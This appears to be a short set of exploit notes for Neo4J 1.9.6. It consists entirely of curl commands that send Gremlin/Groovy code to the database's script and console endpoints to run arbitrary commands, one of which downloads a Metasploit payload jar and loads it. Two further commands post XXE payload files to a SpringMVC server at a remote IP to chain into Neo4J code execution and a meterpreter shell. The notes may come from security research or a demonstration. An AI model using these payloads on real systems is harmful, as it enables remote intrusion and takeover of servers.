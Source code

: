 Neo4J version 1.9.6

neo4j start

# Local Neo4J/Gremlin RCE exploits
curl -X POST http://localhost:7474/db/data/ext/GremlinPlugin/graphdb/execute_script -d '{"script":"import java.lang.Runtime;rt = Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\")", "params": {} }' -H "Content-Type: application/json"

curl -X POST http://localhost:7474/db/manage/server/console/ -d '{"command":"rt = Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\");","engine":"gremlin"}' -H "Content-Type: application/json"

curl -X POST http://localhost:7474/db/manage/server/console/ -d '{"command":"URL url=new URL(\"http://localhost/~alvaro/met.jar\");def urlList = [] << url;URL[] urls = urlList.toArray();new URLClassLoader(urls).loadClass(\"metasploit.Payload\").newInstance()","engine":"gremlin"}' -H "Content-Type: application/json"

# Remote SpringMVC XXE + Neo4J/Gremlin RCE exploits
curl --header "content-type: application/xml" --header "Accept: application/xml" --data @xxe_neo4j_xclock.xml -X POST  "http://192.168.239.146:8080/contacts"

curl --header "content-type: application/xml" --header "Accept: application/xml" --data @xxe_neo4j_meterpreter.xml -X POST  "http://192.168.239.146:8080/contacts"



